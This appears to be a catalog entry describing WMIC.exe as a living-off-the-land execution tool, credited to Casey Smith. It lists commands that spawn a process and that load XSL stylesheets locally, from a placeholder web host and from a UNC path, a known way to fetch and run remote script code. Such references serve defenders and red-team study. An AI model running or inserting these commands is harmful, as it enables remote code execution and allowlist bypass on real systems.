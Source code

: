 ## WMIC.exe

* Functions: Execute

```
wmic process call create calc

wmic process get brief /format:"https://www.example.com/file.xsl

wmic os get /format:"MYXSLFILE.xsl"

wmic process get brief /format:"\\127.0.0.1\c$\Tools\pocremote.xsl"
```

Acknowledgements:
* Casey Smith - @subtee
